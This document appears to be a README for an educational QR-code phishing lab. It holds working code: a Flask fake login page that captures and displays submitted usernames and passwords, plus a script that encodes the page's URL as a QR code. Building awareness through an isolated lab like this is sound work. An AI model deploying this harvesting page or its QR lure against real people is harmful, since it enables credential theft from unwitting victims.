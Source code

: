 # Quishing (QR Code Phishing) Lab Setup

**DISCLAIMER:**  
This lab is for educational purposes only. Do NOT use these techniques outside of a controlled, authorized environment. Always follow ethical guidelines and obtain proper permissions.

---

## Overview

This lab will guide you through setting up a safe, isolated environment to practice and understand QR code phishing (quishing) techniques. You will:
- Set up a local web server to host a fake login page.
- Generate QR codes that point to your phishing page.
- Test the attack using your own devices in a controlled environment.

---

## Prerequisites

- A computer with internet access.
- [Docker](https://www.docker.com/get-started) installed (recommended for isolation).
- [Python 3](https://www.python.org/downloads/) (for a simple web server and QR code generation).
- A smartphone or device with a QR code scanner.

---

## Step 1: Set Up an Isolated Environment

**Option 1: Using Docker (Recommended)**
1. Install Docker.
2. Create a new directory for your lab:
   ```bash
   mkdir quishing-lab && cd quishing-lab
   ```
3. Create a `Dockerfile` with the following content:
   ```Dockerfile
   FROM python:3
   WORKDIR /app
   COPY . /app
   RUN pip install flask qrcode[pil]
   EXPOSE 5000
   CMD ["python", "server.py"]
   ```
4. (You will add `server.py` in the next step.)

**Option 2: Using a Virtual Machine**
- Set up a VM (e.g., with VirtualBox) and install Python 3.

---

## Step 2: Create a Fake Login Page

1. Create a file named `server.py` with the following content:
   ```python
   from flask import Flask, request, render_template_string

   app = Flask(__name__)

   LOGIN_PAGE = '''
   <h2>Login</h2>
   <form method="POST">
     <input name="username" placeholder="Username" required><br>
     <input name="password" type="password" placeholder="Password" required><br>
     <button type="submit">Login</button>
   </form>
   {% if creds %}
   <p style="color:red;">Captured: {{ creds }}</p>
   {% endif %}
   '''

   captured = []

   @app.route('/', methods=['GET', 'POST'])
   def login():
       creds = None
       if request.method == 'POST':
           username = request.form.get('username')
           password = request.form.get('password')
           creds = f"{username}:{password}"
           captured.append(creds)
       return render_template_string(LOGIN_PAGE, creds=creds)

   if __name__ == '__main__':
       app.run(host='0.0.0.0', port=5000)
   ```
2. (Optional) Add HTML/CSS to make the page look more realistic.

---

## Step 3: Build and Run the Lab Server

**If using Docker:**
```bash
docker build -t quishing-lab .
docker run -p 5000:5000 quishing-lab
```

**If using Python directly:**
```bash
pip install flask
python server.py
```

---

## Step 4: Generate a QR Code

1. Create a file named `generate_qr.py`:
   ```python
   import qrcode

   url = "http://<YOUR_LOCAL_IP>:5000/"
   img = qrcode.make(url)
   img.save("phishing_qr.png")
   print("QR code saved as phishing_qr.png")
   ```
2. Replace `<YOUR_LOCAL_IP>` with your computer's local IP address (e.g., 192.168.1.10).
3. Run the script:
   ```bash
   pip install qrcode[pil]
   python generate_qr.py
   ```

---

## Step 5: Test the Attack

1. Open the `phishing_qr.png` file.
2. Use your smartphone to scan the QR code.
3. The browser should open the fake login page.
4. Enter test credentials and observe the captured data on the page.

---

## Step 6: Clean Up

- Stop the Docker container or shut down the VM when done.
- Delete any test data.

---

## Safety & Ethics

- Never use these techniques on real users or systems without explicit permission.
- This lab is for learning and awareness only.

---

## References

- [OWASP QR Code Security](https://owasp.org/www-community/attacks/QR_Code_Attacks)
- [Flask Documentation](https://flask.palletsprojects.com/)
- [qrcode Python Library](https://pypi.org/project/qrcode/)